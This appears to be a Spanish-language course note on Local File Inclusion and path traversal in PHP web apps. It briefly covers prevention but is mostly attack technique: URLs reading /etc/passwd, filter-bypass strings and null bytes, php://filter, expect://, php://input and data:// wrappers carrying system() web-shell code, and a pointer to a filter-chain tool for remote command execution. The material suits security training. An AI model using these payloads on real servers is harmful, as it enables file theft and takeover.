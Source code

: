 
---
- tags: #vulnerabilidad  #web 
----

La vulnerabilidad **Local File Inclusion** (**LFI**) es una vulnerabilidad de seguridad informática que se produce cuando una aplicación web **no valida adecuadamente** las entradas de usuario, permitiendo a un atacante **acceder a archivos locales** en el servidor web.

En muchos casos, los atacantes aprovechan la vulnerabilidad de LFI al abusar de parámetros de entrada en la aplicación web. Los parámetros de entrada son datos que los usuarios ingresan en la aplicación web, como las URL o los campos de formulario. Los atacantes pueden manipular los parámetros de entrada para incluir rutas de archivo local en la solicitud, lo que puede permitirles acceder a archivos en el servidor web. Esta técnica se conoce como “**Path Traversal**” y se utiliza comúnmente en ataques de LFI.

En el ataque de Path Traversal, el atacante utiliza caracteres especiales y caracteres de escape en los parámetros de entrada para navegar a través de los directorios del servidor web y acceder a archivos en ubicaciones sensibles del sistema.

Por ejemplo, el atacante podría incluir “**../**” en el parámetro de entrada para navegar hacia arriba en la estructura del directorio y acceder a archivos en ubicaciones sensibles del sistema.

Para prevenir los ataques LFI, es importante que los desarrolladores de aplicaciones web validen y filtren adecuadamente la entrada del usuario, limitando el acceso a los recursos del sistema y asegurándose de que los archivos sólo se puedan incluir desde ubicaciones permitidas. Además, las empresas deben implementar medidas de seguridad adecuadas, como el cifrado de archivos y la limitación del acceso de usuarios no autorizados a los recursos del sistema.

A continuación, se os proporciona el enlace directo a la herramienta que utilizamos al final de esta clase para abusar de los ‘**Filter Chains**‘ y conseguir así ejecución remota de comandos:

- **PHP Filter Chain Generator**: [https://github.com/synacktiv/php_filter_chain_generator](https://github.com/synacktiv/php_filter_chain_generator)

---

Esta vulnerabilidad se podría aprovechar cambiando el archivo a cargar por una ruta del archivo que queramos. 

```url
localhost/index.php?filename=test
```

``` url
localhost/index.php?filename=/etc/passwd
```

Como podemos observar en los ejemplos anteriores cambiando el archivo al que apunta se podría ver otros ficheros a parte de los que el programador expuso.

- Para saltarnos las posibles sanitizaciones que el programador pueda realizar podemos hacer uso del **Undirectory path traversal** que consiste en concatenar ../ para movernos entre los directorios hasta la raíz del sistema.
- Podría estar sanitizado también de tal manera que no permita poner ../ pero se puede intentar atravesar de la manera ....// y con eso conseguimos que la sanitización no surta efecto. 
- Si estan utilizando expresiones regulares para realizar la sanitización, podríamos intentar saltárnosla así pass?,  ?assw? ,etc o haciendo uso de ////// o ./  porque no es necesario escribir los archivos completos en algunas versiones y las barras y punto barra te deja en el directorio actual de trabajo.

``` url
localhost/index.php?filename=/e?////////././////?pass?/./.
```

podemos ver que los barra punto también se puede poner al final.

- Si están intentando forzar la extensión de archivo podríamos intentar concatenar un null byte al final de la url %00 o "\0" 

``` url
localhost/index.php?filename=/e?////////././////?pass?%00
```

con esto conseguimos que solo nos tenga en cuenta nuestro string

---
**WRAPPERS**

- Cuando no podemos obtener acceso a un recurso por algún tipo de sanitización lo que podemos intentar es aplicar algún tipo de wrapper para obtener la información de ese archivo pero convertido a otra cosa

``` url
localhost/index.php?filename=php://filter/convert.base64-encode/resource=test
```

Wrappers interesantes de conocer

- no suele funcionar pero permite ejecutar codigo directamente
```
expect://whoami
```


- Si tiene la interpretación de php activada podría funcionar para la ejecución de comandos remotos cambiando la petición de get a post.
```
php://input

<?php system("whoami") ?>
```

- lo anterior también se podría hacer de esta manera
```
data://text/plain;base64,<codigo php malicioso a ejecutar en base 64>&cmd=<comando a ejecutar>

<?php system($_GET["cmd"]) ?>
```

- Lo potente de todo esto es jugar con una técnica llamada **filter chain** que existe un recurso que te genera una cadena de filtro de encode y decode que permite ejecutar comandos con los que podríamos conseguir una reverse shell. (buscar por internet)

